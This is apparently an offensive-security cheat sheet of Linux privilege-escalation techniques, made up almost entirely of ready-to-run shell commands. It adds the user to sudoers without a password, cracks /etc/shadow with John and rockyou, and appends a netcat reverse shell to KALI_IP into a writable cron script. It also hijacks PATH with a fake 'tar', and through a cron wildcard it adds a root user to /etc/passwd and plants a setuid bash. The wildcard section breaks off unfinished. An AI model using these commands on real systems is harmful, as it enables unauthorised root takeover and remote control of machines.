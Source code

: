```shell
echo "`whoami` ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers
```
## readable /etc/shadow
```shell
# 1 Copy /etc/passwd and /etc/shadow to files "passwd.john" and "shadow.john"

# 2 Unshadow
unshadow ./passwd.john ./shadow.john > unshadowed.john

# 3 Crack
john ./unshadowed.john --wordlist=/usr/share/wordlists/rockyou.txt
```
## readable /root ssh keys
```shell
ssh -i root_id_rsa root@`tip`
```
## writable cron script

```shell
echo >> user_backups.sh
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 | nc KALI_IP 443 >/tmp/f" >> user_backups.sh
cat user_backups.sh
```
## writable /etc/crontab
### A Replace script
```shell
* * * * * root /tmp/malicious_script.sh
```
### B Writeable Path is in PATH
***For example, if backup.sh uses "tar", we can modify the PATH to have our "tar" run***
```shell
# 1 Create our "tar" in the writeable path Here, we can write in /dev/shm
echo '/bin/bash' > /tmp/tar
chmod +x /tmp/tar

# 2 modify PATH
export PATH=/tmp:$PATH
* * * * * root backup.sh # (backup.sh uses tar command inside it for example)

# Can replace with any payload i.e reverse shell, add root user, copy of bash etc
```
### C Wildcards used
***If the cron job executes a command with wildcards (e.g., `tar -cvf /tmp/backup.tar *`), you can exploit this by creating malicious files.***
```shell
# 1 After cding into the writeable directory 

# 2 Create the payload
echo '#!/bin/bash' > /tmp/malicious.sh
echo "" >> /tmp/malicious.sh

# A add root user
echo 'echo "r00t:ShuKpZV7v9akI:0:0:root:/root:/bin/bash" >> /etc/passwd' >> /tmp/malicious.sh
# or
# B root bash
echo 'cp /bin/bash /tmp && chmod +s /tmp/bash' > /tmp/malicious.sh

# 3 Touch the files
```